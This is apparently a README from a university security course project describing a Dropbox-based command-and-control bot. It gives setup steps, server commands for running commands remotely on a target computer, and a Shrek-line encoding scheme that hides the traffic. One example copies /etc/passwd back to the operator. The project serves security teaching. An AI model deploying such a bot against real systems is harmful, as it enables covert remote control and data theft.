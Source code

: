 # Dropbox C&C bot

Command and Control system using Dropbox and steganography developed by Petr Zahradník
for the course BSY at FEE CTU in Prague. For educational purposes only.

## Installation

First, obtain a Dropbox access token. Navigate to https://www.dropbox.com/developers,
create a new app, allow `files.metadata.write`, `files.metadata.read`, `files.content.write`,
`files.content.read`. Permission type can be `Scoped App (App Folder)`. Finally click
`Generated access token` and put it into the environment variable (via bash or .env).

```env
TOKEN=sl.example123...
```

Then install the `dropbox` sdk.

```sh
pip install -r requirements.txt
```

## Usage

Run bot on the target computer:

```bash
python bot.py
```

Run server on your computer:

```bash
python server.py
```

Server is interactive, use can you it to send commands and receive responses.

Type `help` to show help.

Most useful commands are:

- `bots` refreshes the list of connected bots and displays the alive ones.
  Use the bot indexes in the further commands.
  ```
  > bots
  Connected bots:
  0: arrogant terrible Pigs
  ```
- `run` runs a user defined command on the target computer.
  ```
  > run 0 date 
  ```
- `cp` copies a file to your computer. *Note that the file is not written until 
  you run `resp`.*
  ```
  > cp 0 /etc/passwd
  ```
- `resp` refreshes command responses for a specified bot and prints them.
  ```
  > resp 0
  Responses from arrogant terrible Pigs:
  date
  Sun Jan  7 11:38:13 PM CET 2024
  
  cp /etc/passwd
  Written to: passwd
  ```

## Protocol

The communication happends via Dropbox API using text files only.

The server writes commands into `fav_scenes/` folder and receives responses 
through `wtf_dialogues/`. Furthermore the bots send healthchecks to `quotes/`.

The health checks are random lines, but commands and responses are encoded UTF-8 bytes.
Each byte is written as a line from [Shrek movie](https://knowyourmeme.com/memes/subcultures/shrek)
using a look-up table. This way arbitrary commands are supported as well as
the whole unicode charset.

Files are given randomly generated `<adjective> <adjective> <fairytale character>.txt` names,
e.g. `amused ugly HumptyDumpty.txt`.

## Remarks

All features are supported except for

> The controller should check if the bots are alive periodically.

The healthcheck is sent periodically but the server only check them when you call `bots` command.
This is to simplify the architecture and provide predictable bot numbering scheme.

There are numerous extensions possible. For example transfering files to the victim computer would
be very easy to implement. The bot code could futhermore be enhanced to support running multiple
commands in a non-blocking way.
